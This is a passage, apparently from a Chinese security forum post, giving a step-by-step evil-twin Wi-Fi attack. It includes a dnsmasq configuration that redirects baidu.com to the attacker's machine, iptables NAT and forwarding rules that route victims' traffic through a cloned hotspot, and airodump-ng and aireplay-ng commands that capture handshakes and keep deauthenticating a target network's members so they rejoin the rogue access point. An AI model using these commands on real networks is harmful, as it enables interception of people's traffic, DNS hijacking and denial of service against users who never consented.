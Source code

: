 ```php
sudo service isc-dhcp-server restart //重启dhcp服务
```

配置dnsmasq

```php
sudo vi /etc/dnsmasq.conf
添加以下内容:
resolv-file=/etc/resolv.conf //设置resolv目录
strict-order
listen-address=192.168.199.113 //这个ip是本机ip，如果只想本地访问可以填写127.0.0.1

address=/baidu.com/192.168.178.99 //注意，这一步很重要，需要在这里设置泛解析
address=/111.com/220.181.38.148

server=8.8.8.8 
//设置谷歌dns为首选dns
server=114.114.114.114

sudo vi /etc/resolv.conf
添加nameserver为本机ip地址
```

![图片.png](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-97695641533845c9f51bf1b20260e531ac0acd35.png)  
重启dnsmasq服务

```php
sudo service dnsmasq restart
```

设置iptables进行流量转发:

```php
//使用iptables编写规则：

iptables -t nat -A POSTROUTING -s 192.168.199.0/24 -j SNAT --to 192.168.178.99

iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE
//对eth0进行源nat
iptables -A FORWARD -i wlan1 -o eth0 -j ACCEPT
//转发能上网的无线网卡流量
iptables -A FORWARD -p tcp --syn -s 192.168.199.0/24 -j TCPMSS --set-mss 1356
iptables-save //保存
```

克隆Wi-Fi后成功获取到成员进入网络提示信息  
![图片.png](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-809d5b52e57d775354150357f380427d72ca45dc.png)  
7.但是我们也不能白等新的冤大头连上我们的热点，所以我们可以对目标AP的成员使用断网攻击使其强制掉线重连  
aireplay-ng攻击：

```php
//先对目标AP进行锁定监听并保存抓到的握手包
sudo airodump-ng <device1> --bssid=<target bssid> --channel=<channel> -w <文件保存路径>
//然后打开一个新的命令窗口进行攻击
sudo aireplay-ng -0 0 -a <target AP BSSID>  -c <target member MAC> <device1>
```
